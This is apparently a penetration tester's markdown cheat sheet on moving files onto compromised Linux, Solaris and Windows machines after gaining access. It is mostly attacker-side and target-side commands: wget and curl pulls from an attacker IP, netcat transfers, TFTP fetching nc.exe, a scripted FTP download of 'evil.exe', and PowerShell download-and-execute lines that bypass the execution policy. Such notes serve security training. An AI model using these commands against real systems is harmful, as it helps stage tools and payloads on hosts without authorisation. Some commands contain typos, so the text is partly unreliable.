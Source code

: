 ```yaml
---
layout: single
title: '<span class="Articles"> Transfering data W|L - /Articles</span>'
excerpt: "while you are trying to privilage escalating you might need to know how to transfer archives or binaries "
date: 2023-04-26
header:

  teaser_home_page: true



categories:

  - article
  - web
  - files
tags:  
  - windows
  - Solaris
  - linux
toc: true
toc_label: "Content"
toc_sticky: true
show_time: true
---
```



while you are trying to privilage escalating you might need to know how to transfer archives or binaries
i recommend you to execute ```which``` before you try the following binaries in order to know ```which``` binaries are available in our machina; in the target machine 

examples

## Solaris | Linux

# Rsync

```rsync -az source destination```
# Python

```php
Python SimpleHTTPServer
```

```on Attacker```
```bash
python -m SimpleHTTPServer 80
```

```#on target```
```bash
wget <attackerip>:80/filename
```



# Apache

```on Attacker```

```bash
cp filetoYouWantsend.txt /var/www/html
service apache2 start
```

```on target```
```bash
wget http://attackerip/file
```
```bash
curl http://attackerip/file > file
```
```bash
fetch http://attackerip/file  ```on BSD```
```


# Netcat

```Listen on your own machine```
```php
nc -lvp 4444 > file
```
```send to the Target machine```
```bash

nc <kali_ip> 4444 < file
```



# Netcat + Python


```on Attacker```
```bash
python -m http.server 90
```
```on target```

```wget <attackerip>:90/filename```



# Netcat 


```Listen on your own machine```

nc -lvp 4444 > file

```on target, wait for the file```
nc -nvlp 55555 > file

```on kali, push the file```
nc $victimip 55555 < file


----------------------

## God to know Linux|Solaris:

```To send the executable file to your machine```:

```bash
base64 executable
# copy the output
# paste it in a file called file.txt
# decode it and create the executable
base64 -d file.txt > executable
```
## Windows 


# TFTP
```Windows XP and Win 2003 contain tftp client. Windows 7 do not by default```
```tfpt clients are usually non-interactive, so they could work through an obtained shell```

atftpd --daemon --port 69 /tftp
Windows> tftp -i 192.168.30.45 GET nc.exe



FTP (pyftpdlib client on Kali)
```Ftp is generally installed on Windows machines```

# To make it interactive, use -s option

```On Parrot install a ftp client and set a username/password```

```bash
apt-get install python-pyftpdlib  
python -m pyftpdlib -p 21
```

```on Windows```

```bash
ftp <attackerip>
> binary
> get exploit.exe
```


# FTP (pureftpd client on parrot)

```on your own machine ```

```bash
 install ftp client

$ apt-get install pure-ftpd

 create a group

$groupadd ftpgroup

 add a user

$ useradd -g ftpgroup -d /dev/null -s /etc ftpuser

Create a directory for your ftp-files (you can also specify a specific user e.g.: /root/ftphome/zek).

$ mkdir /root/ftphome

 Create a ftp-user, in our example "zek" (again you can set "-d /root/ftphome/zek/" if you want to).

$ pure-pw useradd zek -u ftpuser -g ftpgroup -d /root/ftphome/
 Update the ftp database after adding our new user.

$ pure-pw mkdb

 change ownership of the specified ftp directory (and all it's sub-direcotries) 

$ chown -R ftpuser:ftpgroup /root/ftphome

 restart Pure-FTPD
 
$ /etc/init.d/pure-ftpd restart
```

```On Windows target machine```

```bash
echo open <attackerip> 21> ftp.txt
echo USER username password >> ftp.txt
echo bin >> ftp.txt
echo GET evil.exe >> ftp.txt
echo bye >> ftp.txt
ftp -s:ftp.txt
```



# Powershell
```bash 
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://<attackerip>/powerup.ps1" >>wget.ps1
echo $file = "powerup.ps1" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```


# Powershell download a file
```bash
powershell "IEX(New Object Net.WebClient).downloadString('http://<targetip>/file.ps1')"
```
